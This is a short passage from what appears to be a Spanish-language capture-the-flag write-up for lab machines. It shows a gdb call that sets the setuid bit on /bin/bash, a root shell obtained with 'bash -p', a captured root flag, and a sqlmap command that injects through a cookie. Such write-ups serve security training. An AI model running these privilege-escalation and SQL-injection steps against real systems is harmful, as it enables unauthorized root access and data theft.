 ```r
(gdb) call (void)system("chmod u+s /bin/bash")
[Detaching after vfork from child process 2176]
```
*Vemos que se ha ejecutado las instrucción de forma correcta.*

```r
developer@faculty:/tmp$ bash -p
bash-5.0# whoami
root
```
*Ahora vemos que somos root.*

```r
bash-5.0# cat root.txt
6ed32b23ae460d522ea2d3e145940e4a
```
*Ahora vemos que ya tenemos la root falg!*

#SQLInjection 
```r
❯ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --flush --fresh-queries --level=5 --risk=3 --batch
````
*cookies*